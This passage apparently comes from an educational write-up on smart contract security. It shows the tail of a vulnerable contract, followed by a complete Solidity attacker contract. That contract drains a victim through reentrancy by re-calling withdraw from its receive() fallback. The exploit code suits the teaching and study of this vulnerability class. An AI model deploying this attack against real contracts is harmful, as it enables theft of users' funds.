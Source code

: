 ```

    // Allow contract to receive Ether (e.g., for deposits)
    receive() external payable {}
}

```

**Attacker Contract Snippet (Solidity) ^23^:**

Solidity

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

interface IVulnerableReentrancy {
    function deposit() external payable;
    function withdraw(uint amount) external;
    function getContractBalance() external view returns (uint);
    function balances(address) external view returns (uint);
}

contract AttackerReentrancy {
    IVulnerableReentrancy public victimContract;
    uint public constant ATTACK_AMOUNT = 1 ether; // Amount to deposit and attempt to withdraw multiple times
    uint public reentrancyCount = 0;

    event AttackFundsReceived(uint amount);

    constructor(address _victimAddress) {
        victimContract = IVulnerableReentrancy(_victimAddress);
    }

    // Step 1: Attacker EOA sends Ether to this function to prime the victim.
    function primeVictim() external payable {
        require(msg.value == ATTACK_AMOUNT, "Must send ATTACK_AMOUNT to prime");
        victimContract.deposit{value: ATTACK_AMOUNT}();
    }

    // Step 2: Attacker EOA calls this function to initiate the attack.
    function attack() external {
        require(victimContract.balances(address(this)) >= ATTACK_AMOUNT, "Attacker has no balance in victim");
        victimContract.withdraw(ATTACK_AMOUNT);
    }

    // Fallback function that is triggered when the victim contract sends Ether via `call`.
    // This is the core of the re-entrancy.
    receive() external payable {
        emit AttackFundsReceived(msg.value);
        reentrancyCount++;
        // As long as the victim contract has enough Ether and our recorded balance in the victim
        // hasn't been effectively debited yet (due to the re-entrant nature), try to withdraw again.
        // A practical limit is needed to avoid running out of gas.
        if (victimContract.getContractBalance() >= ATTACK_AMOUNT && reentrancyCount < 10) {
            // The check victimContract.balances(address(this)) >= ATTACK_AMOUNT would also be true
            // during the re-entrant calls before the original withdraw call completes its state update.
            victimContract.withdraw(ATTACK_AMOUNT);
        }
    }

```
